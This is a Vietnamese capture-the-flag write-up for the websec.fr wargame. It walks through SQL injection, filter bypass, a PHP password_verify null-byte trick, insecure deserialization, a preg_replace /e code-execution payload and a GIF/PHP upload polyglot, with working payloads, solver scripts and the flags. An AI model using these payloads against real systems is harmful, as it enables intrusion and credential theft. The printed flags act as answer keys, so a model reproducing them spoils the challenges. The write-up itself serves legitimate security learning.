<!-- markdownlint-disable MD024 -->
# Websec

## Level 01

> Nothing fancy
>
> 🔥 <https://websec.fr/level01/>

Tại level 1 này, chúng ta sẽ bắt đầu với một thử thách SQL Injection đơn giản.

Ứng dụng sẽ lấy `id` chúng ta nhập vào và trả về username cũng như id tương ứng.


Nếu chúng ta nhập vào `1'` sẽ thấy lỗi xuất hiện. Từ đó cho ta biết server đang sử dụng SQLite và giá trị của `id` đang được truyền thẳng vào câu truy vấn.


Vậy chúng ta có thể sử dụng payload như sau để xác định phiên bản của SQLite.

```sql
1 UNION SELECT null, sqlite_version();
```


Với phiên bản là `3.27.2`, chúng ta sẽ sử dụng payload sau để biết được cấu trúc của database.

```sql
1 UNION SELECT null, sql FROM sqlite_master
```


Vậy là câu truy vấn gốc không lấy ra giá trị từ cột `password`, chúng ta sẽ tận dụng SQL Injection để thực hiện điều đó.

Với `id` là `1` thì chúng ta sẽ lấy được password chứa flag.

```sql
1 UNION SELECT null, password FROM users WHERE id=1
```


Ngoài ra, chúng ta cũng có thể sử dụng payload sau để lấy hết tất cả password có trong bảng `users`.

```sql
1 UNION SELECT null, group_concat(password) FROM users
```

### Flag

`WEBSEC{Simple_SQLite_Injection}`

## Level 02

> Nothing fancy, with a twist
>
> 🔥 <https://websec.fr/level02/>



Sang tới level 2 này, lập trình viên đã thay thế các từ `union`, `order`, `select`, `from`, `group`, `by` (không phân biệt hoa thường) thành chuỗi rỗng `''`.



Vậy chúng ta có thể tạo thành từ `UNION` bằng cách sử dụng `UbyNION`, những từ khoá khác cũng tạo tương tự.

Mình đã viết một script Python bên dưới để lấy flag.

```python
import requests
import re

URL = "https://websec.fr/level02/index.php"

payload = "1 UbyNION SbyELECT null, password FbyROM users where id=1"

def solve():
    data = {
        "user_id": f"{payload}",
        "submit": ""
    }

    r = requests.post(URL, data=data)
    flag = re.search(r"WEBSEC{\w*}", r.text).group(0)

    print(flag)


if __name__ == "__main__":
    solve()

```

### Flag

`WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`

## Level 03

> ChaChaCha!
>
> 🔥 <https://websec.fr/level03/>



Khi thử nhập chuỗi bất kỳ như `abc` chúng ta thấy hiện ra chuỗi hash của flag `7c00249d409a91ab84e3f421c193520d9fb3674b`:



Xem source code tại [https://websec.fr/level03/source.php](https://websec.fr/level03/source.php), chúng ta tập trung vào đoạn code xử lý khi gửi chuỗi lên server:

```php
<?php
if(isset($_POST['c'])) {
    /*  Get rid of clever people that put `c[]=bla`
     *  in the request to confuse `password_hash`
     */
    $h2 = password_hash (sha1($_POST['c'], fa1se), PASSWORD_BCRYPT);

    echo "<div class='row'>";
    if (password_verify (sha1($flag, fa1se), $h2) === true) {
       echo "<p>Here is your flag: <mark>$flag</mark></p>"; 
    } else {
        echo "<p>Here is the <em>hash</em> of your flag: <mark>" . sha1($flag, false) . "</mark></p>";
    }
    echo "</div>";
}
?>
```

Có thể thấy rằng chuỗi chúng ta nhập vào được hash sha1 nhưng tạo ra raw bytes bởi vì sử dụng `fa1se` thay vì giá trị `false` và tiếp tục được hash bcrypt:

```php
 $h2 = password_hash (sha1($_POST['c'], fa1se), PASSWORD_BCRYPT);
```

Sau đó thực hiện gọi đến hàm `password_verify()` với 2 đối số hash sha1 của flag cũng ở dạng raw bytes với chuỗi hash bcrypt của chúng ta.

Xem source code triển khai của hàm [password_verify()](https://github.com/php/php-src/blob/PHP-5.6.26/ext/standard/password.c#L273), chúng ta thấy chuỗi hash truyền vào được lưu trữ với `char *ret, *password, *hash;` khiến nó chỉ lấy các ký tự cho đến khi gặp null byte.

Vì hash của flag là `7c00249d409a91ab84e3f421c193520d9fb3674b` có null byte ở vị trí thứ 2, do đó khi được xử lý trong hàm `password_verify()` nó sẽ chỉ còn một byte `7c`.

Vậy, chúng ta cần brute-force để tìm ra chuỗi có hash sha1 bắt đầu với bytes `7c00`. Chúng ta có thể viết script khai thác như sau:

```python
import hashlib
import requests
import re

i = 0

found = ""
while True:
    if hashlib.sha1(str(i).encode()).hexdigest().startswith("7c00"):
        found = i
        print(f"[+] Found: {found}")
        break
    i += 1

r = requests.post("https://websec.fr/level03/index.php", data={"c":found})
flag = re.search(r"WEBSEC{.*}", r.text).group(0)
print(f"[+] FLAG: {flag}")
```

Chạy script và nhận được flag:

```text
$ python3 solve.py
[+] Found: 104610
[+] FLAG: WEBSEC{Please_Do_not_combine_rAw_hash_functions_mi}
```

### Flag

`WEBSEC{Please_Do_not_combine_rAw_hash_functions_mi}`

## Level 04

> Serialization is a pain!
>
> 🔥 <https://websec.fr/level04/index.php>



Trang web cho phép chúng ta tìm kiếm người dùng theo id. Thử nhập `1`, chúng ta thấy xuất hiện "Username: flag":



Vậy có thể hiểu flag nằm ở hàng đầu tiên của bảng trong database. Giờ cùng phân tích nội dung của 2 files được cung cấp [source1.php](https://websec.fr/level04/source1.php) và [source2.php](https://websec.fr/level04/source2.php).

Tại `source1.php` dễ thấy lỗ hổng Insecure Deserialization bởi dữ liệu ở dạng Base64 lấy từ cookie `leet_hax0r` được truyền thẳng tới hàm `unserialize()`:

```php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>
...
```

Tại `source2.php`, có một class `SQL` gồm một số thuộc tính và method cho phép kết nối tới database SQLite. Câu truy vấn `$query` được sẽ được thực thi nhờ vào method `execute()`, nếu có kết quả sẽ lấy ra dữ liệu từ cột `username`:

```php
 <?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```

Vậy chúng ta cần tìm cách khai thác Insecure Deserialization để thay đổi câu truy vấn và lấy ra flag.

Viết đoạn script PHP bên dưới để tạo payload. Chú ý là do server chỉ lấy ra giá trị ở cột `username` từ kết quả của câu truy vấn nên chúng ta cần sử dụng `AS` để thay đổi tên cột từ `password` thành `username`.

```php
<?php
class SQL {
    public $query = "SELECT password AS username FROM users";
}

echo base64_encode(serialize(new SQL));
// TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6Mzg6IlNFTEVDVCBwYXNzd29yZCBhcyB1c2VybmFtZSBGUk9NIHVzZXJzIjt9
```

Thêm payload vừa tạo vào cookie `leet_hax0r`, chúng ta lụm được flag:



### Flag

`WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`

## Level 05

> The magical Shellpecker!
>
> 🔥 <https://websec.fr/level05/>



Truy cập vào source code, chúng ta tập trung vào đoạn code bên dưới. Chúng ta được nhập vào chuỗi và server lấy tối đa 256 ký tự thông qua tham số `q`. Server sử dụng hàm `preg_replace()` để thực hiện thay thế chuỗi của chúng ta nếu có kết quả khớp.

Tuy nhiên, điểm đáng chú ý là pattern `/([^$blacklist]{2,})/ie` được sử dụng với modifier `e`, cho phép thực thi hàm `correct ("\\1")`. Trong đó, đối số hàm nhận là `\1` - nhóm kết quả khớp với pattern đầu tiên.

```php
<!-- If I had to guess, I would say that the $flag is defined in flag.php -->
...
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL ^ E_DEPRECATED);

if (isset($_REQUEST['q']) and is_string($_REQUEST['q'])):
    require 'spell.php';  # implement the "correct($word)" function

    $q = substr($_REQUEST['q'], 0, 256);  # Our spellchecker is a bit slow, do not DoS it please.
    $blacklist = implode(["'", '"', '(', ')', ' ', '`']);

    $corrected = preg_replace("/([^$blacklist]{2,})/ie", 'correct ("\\1")', $q);
?>
    <br>
    <hr><br>
    <div class="row">
        <div class="panel panel-default">
            <div class="panel-heading">Corrected text</div>
            <div class="panel-body">
                <blockquote>
                    <?php echo htmlspecialchars($corrected); ?>
                </blockquote>
            </div>
        </div>
    </div>
<?php endif ?>
```

Chú ý là có blacklist nên input của chúng ta khi đi vào hàm `correct("\\1")` sẽ không có các ký tự `'`, `"`, `(`, `)`, " ", "`":



Do input được đặt trong dấu nháy `"` nên chúng ta thử nhập vào một biến như `$blacklist` xem sao. Có thể thấy giá trị của biến được hiển thị:



Vậy nếu chúng ta nhập vào biến `$flag` để đọc flag có được không? Không được, do biến `$flag` không nằm trong file hiện tại mà ở file `flag.php`:



Do đó, chúng ta phải include file `flag.php` tới file hiện tại sau đó mới truy cập được vào biến `$flag`. Ở trong PHP có cú pháp sử dụng `${}` để truy cập tới biến và cũng có thể sử dụng `include` ở đó:



Vậy với payload `${include%09$_POST[0]}$flag&submit=&0=flag.php`, chúng ta có thể bypass khoảng trắng với Tab (`%09`), dấu `'` với `$_POST[0]` để lấy tên file từ tham số `0`:



### Flag

`WEBSEC{Writing_a_sp3llcheckEr_in_php_aint_no_fun}`

## Level 07

> Blacklist vs. SQLi
>
> 🔥 <https://websec.fr/level07/index.php>



Truy cập vào source code, chúng ta thấy đây là một thử thách liên quan tới khai thác lỗ hổng SQL Injection. Một điều đặc biệt là server thực hiện filter cực kỳ nhiều thông qua mảng `$blacklist`.

Chúng ta được nhập vào tham số `user_id` từ body của POST request. Và giá trị của tham số này sẽ được sử dụng ở câu truy vấn `'SELECT id,login FROM users WHERE id=' . $injection;`:

```php
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

function sanitize($str) {
    /* Rock-solid ! */
    $special1 = ["!", "\"", "#", "$", "%", "&", "'", "+", "-"];
    $special2 = [".", "/", ":", ";", "<", "=", ">", "?", "@"];
    $special3 = ["[", "]", "^", "_", "`", "\\", "|", "{", "}"];

    $sql = ["or", "is", "like", "glob", "join", "0", "limit", "char"];

    $blacklist = array_merge($special1, $special2, $special3, $sql);

    foreach ($blacklist as $value) {
        if (stripos($str, $value) !== false)
            die("Presence of '" . $value . "' detected: abort, abort, abort!\n");
    }
}

if (isset($_POST['submit']) && isset($_POST['user_id'])) {
    $injection = $_POST['user_id'];
    $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);

    sanitize($injection);

    //$query='SELECT id,login,password FROM users WHERE id=' . $injection;
    $query = 'SELECT id,login FROM users WHERE id=' . $injection;
    $getUsers = $pdo->query($query);
    $users = $getUsers->fetchArray(SQLITE3_ASSOC);

    $userDetails = false;
    if ($users) {
        $userDetails = $users;
    }
}

```

Nhập thử `1`, chúng ta thấy thông tin được trả về tại cột `login` chính là username tương ứng với `id` bằng `1`. Ở đây là `user_two`:



Chúng ta cùng kiểm tra thử với bảng `users` như sau:



Câu truy vấn `SELECT id,login FROM users WHERE id=1` lấy ra `id` và `login` với điều kiện `id=1`:



Với câu truy vấn dưới, chúng ta có thể đổi tên cột kết quả bằng từ khoá `AS`:

```sql
SELECT 1337 AS id, 1337 AS login, 1337 AS pw UNION SELECT * FROM users
```



Chúng ta sẽ lấy ra 2 cột dữ liệu `id` và `pw`:

```sql
SELECT id, pw FROM (SELECT 1337 AS id, 1337 AS login, 1337 AS pw UNION SELECT * FROM users)
```



Chúng ta kết hợp câu truy vấn bên trên với câu truy vấn gốc bằng cách sử dụng từ khoá `UNION` được:

```sql
SELECT id,login FROM users WHERE id=1337 UNION SELECT id, pw FROM (SELECT 1337 AS id, 1337 AS login, 1337 AS pw UNION SELECT * FROM users)
```

Có thể thấy rằng cột thứ hai đã có tên `login` nhưng lại chứa dữ liệu nằm ở cột `password` ban đầu. Vậy khi server lấy ra dữ liệu, chúng ta hoàn toàn xem được password:



Cuối cùng thực hiện trên thử thách, chúng ta cần thêm điều kiện `WHERE id IN(1)` bởi hàng đầu tiên trong kết quả có `id` mang giá trị `0` không chứa flag.

```sql
1337 UNION SELECT id, pw FROM (SELECT 1337 AS id, 1337 AS login, 1337 AS pw UNION SELECT * FROM users) WHERE id IN(1)
```



### Flag

`WEBSEC{Because_blacklist_based_filter_are_always_great}`

## Level 08

> Bypassing Security Checks
>
> 🔥 <https://websec.fr/level08/index.php>



```php
<?php
$uploadedFile = sprintf('%1$s/%2$s', '/uploads', sha1($_FILES['fileToUpload']['name']) . '.gif');

if (file_exists($uploadedFile)) {
    unlink($uploadedFile);
}

if ($_FILES['fileToUpload']['size'] <= 50000) {
    if (getimagesize($_FILES['fileToUpload']['tmp_name']) !== false) {
        if (exif_imagetype($_FILES['fileToUpload']['tmp_name']) === IMAGETYPE_GIF) {
            move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $uploadedFile);
            echo '<p class="lead">Dump of <a href="/level08' . $uploadedFile . '">' . htmlentities($_FILES['fileToUpload']['name']) . '</a>:</p>';
            echo '<pre>';
            include_once($uploadedFile);
            echo '</pre>';
            unlink($uploadedFile);
        } else {
            echo '<p class="text-danger">The file is not a GIF</p>';
        }
    } else {
        echo '<p class="text-danger">The file is not an image</p>';
    }
} else {
    echo '<p class="text-danger">The file is too big</p>';
}

```

Server cho phép chúng ta tải lên file và yêu cầu phải là file GIF bằng cách dùng `exif_imagetype($_FILES['fileToUpload']['tmp_name']) === IMAGETYPE_GIF`.

Chúng ta có thể bypass bằng cách tải lên một file có chứa GIF magic byte và code PHP để khai thác lỗi LFI do server dùng `include_once($uploadedFile);`.

Vậy, chúng ta sẽ viết script Python sau để hoàn thành thử thách:

```python
import requests
import re

URL = "https://websec.fr/level08/index.php"

file = {
    "fileToUpload": "GIF89a\n<?php echo file_get_contents('/flag.txt'); ?>"
}

r = requests.post(URL, files=file)
print(re.search(r"WEBSEC{\w+}", r.text).group(0))

```

### Flag

`WEBSEC{BypassingImageChecksToRCE}`
